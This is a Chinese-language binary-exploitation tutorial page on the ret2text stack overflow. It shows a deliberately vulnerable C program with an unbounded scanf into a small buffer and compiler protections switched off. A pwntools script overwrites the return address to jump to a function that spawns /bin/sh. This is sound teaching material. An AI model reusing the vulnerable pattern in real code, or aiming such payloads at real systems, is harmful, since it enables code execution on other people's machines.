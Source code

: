 ```yaml
---
title: "ret2text"
description: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
lead: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


# 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell
![image-20230328233440240](./image-20230328233440240.png)
举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {	// getshell函数
	system("/bin/sh");
}

void run(){	// 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
	char buf[0x10];	/* 局部变量 */
	printf("input: ");
	scanf("%s", buf);
}

int main(){
	run();
	return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看
![image-20230328233451110](./image-20230328233451110.png)
然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量
![image-20230328233457204](./image-20230328233457204.png)
可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为
![image-20230328233506471](./image-20230328233506471.png)
覆盖后将变为
![image-20230328233523087](./image-20230328233523087.png)
运行到ret看它的跳转方向
![image-20230328233532790](./image-20230328233532790.png)
这个时候esp指向了getshell函数，即跳转去执行getshell函数
![image-20230328233538372](./image-20230328233538372.png)
继续执行
![image-20230328233543851](./image-20230328233543851.png)



